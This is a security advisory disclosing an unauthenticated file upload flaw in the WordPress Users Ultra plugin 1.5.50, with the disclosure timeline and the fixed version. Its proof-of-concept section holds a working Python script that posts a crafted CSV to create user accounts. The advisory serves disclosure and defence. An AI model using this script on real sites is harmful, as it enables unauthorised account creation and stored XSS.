 * Exploit Title: WordPress Users Ultra Plugin [Unrestricted File Upload]
* Discovery Date: 2015/10/27
* Public Disclosure Date: 2015/12/01
* Exploit Author: Panagiotis Vagenas
* Contact: https://twitter.com/panVagenas
* Vendor Homepage: http://usersultra.com
* Software Link: https://wordpress.org/plugins/users-ultra/
* Version: 1.5.50
* Tested on: WordPress 4.3.1
* Category: webapps

Description
================================================================================

WordPress plugin `Users Ultra Plugin` suffers for an unrestricted file upload vulnerability.

Any user (registered or not) can exploit a misbehavior of the plugin in order to upload csv files to the infected website. Although the plugin checks file extension using an extensions white-list (in this case only csv files are white-listed), no other checks (mime, size etc) are taking place. This alone can expose the infected website to a variety of attacks, please see [OWASP Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload) to get an idea.

Details
================================================================================

The plugin workflow that could allow a malicious user to exploit this misbehavior is as follows:

1. Upon initialization of the plugin (anytime if it is activated) an instance of `XooUserUser` class is created
2. In the constructor of `XooUserUser` class a check for POST variable `uultra-form-cvs-form-conf` is taking place
    file `wp-content/plugins/users-ultra/xooclasses/xoo.userultra.user.php` lines 19-23
    ```php
    if (isset($_POST['uultra-form-cvs-form-conf']))
    {
	    /* Let's Update the Profile */
	    $this->process_cvs($_FILES);
    }
    ```
3. Assuming the POST variable `uultra-form-cvs-form-conf` has been set in the request, the method `XooUserUser::process_cvs()` is called.
4. `XooUserUser::process_cvs()` method process every file in $_FILES super-global by only making a check if the file has a `csv` extension

In addition we mark the following points:

1. A malicious user can create and activate user accounts by exploiting this vulnerability if `$_POST["uultra-activate-account"]` is set to `active`
2. A welcome email is send if `$_POST["uultra-send-welcome-email"]` is set to 1
3. The csv files uploaded to the server are stored in a directory (`wp-content/usersultramedia/import` by default) accessible by anyone
4. Any additional columns present in the csv file are stored in `usermeta`
5. No sanitization for values in csv file can easily lead to a Persistent XSS attack, so an attacker can compromise the whole site

PoC
================================================================================

The following Python3 script forms a csv file and uploads it to a site

```python3
#!/usr/bin/python3
import requests
import csv
import tempfile

url = 'http://example.com/'

postData = {
    'uultra-form-cvs-form-conf': 1,
    'uultra-send-welcome-email': 1,
    'uultra-activate-account': 'pending'
}

csvFileHeader = ['user name', 'email', 'display name', 'registration date', 'first name', 'last name', 'age', 'country']
csvFileRow = ['userName', 'email@example.com', 'User Name', '1/1/1', 'User', 'Name', '100', 'IO']

csvFile = tempfile.NamedTemporaryFile(mode='a+t', suffix='.csv')

wr = csv.writer(csvFile, quoting=csv.QUOTE_ALL, delimiter=',')

wr.writerow(csvFileHeader)
wr.writerow(csvFileRow)

csvFile.seek(0)

files = {'file.csv': csvFile}

r = requests.post(url, data=postData, files=files)

exit(0)
```

Timeline
================================================================================

2015/10/29 - Vendor notified via email
2015/11/11 - Vendor notified via contact form in his website
2015/11/13 - Vendor notified via support forums at wordpress.org
2015/11/14 - Vendor responded and received report through email
2015/11/15 - Vendor responded
2015/11/15 - Patch released

Solution
================================================================================

Update to version 1.5.59